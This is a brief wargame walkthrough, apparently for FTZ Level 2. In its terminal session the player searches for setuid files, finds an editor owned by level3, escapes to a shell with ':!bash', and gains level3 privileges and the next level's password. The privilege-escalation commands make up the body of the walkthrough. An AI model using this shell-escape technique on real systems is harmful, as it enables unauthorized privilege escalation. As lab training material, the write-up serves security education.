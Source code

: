 # Level2

`[level2@ftz level2]$ cat hint 
텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...`



`[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null
/usr/bin/editor
[level2@ftz level2]$ ls -l /usr/bin/editor
-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor`



`[level2@ftz level2]$ which vi
alias vi='vim'
        /usr/bin/vim
[level2@ftz level2]$ ls -l /bin/vi
-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi
[level2@ftz level2]$ ls -l /usr/bin/vim
-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim`



`[level2@ftz level2]$ /usr/bin/editor`

`:!id`

`uid=3003(level3) gid=3002(level2) groups=3002(level2)
Hit ENTER or type command to continue`

`:!bash`



`[level3@ftz level2]$ my-pass
Level3 Password is "can you fly?".`
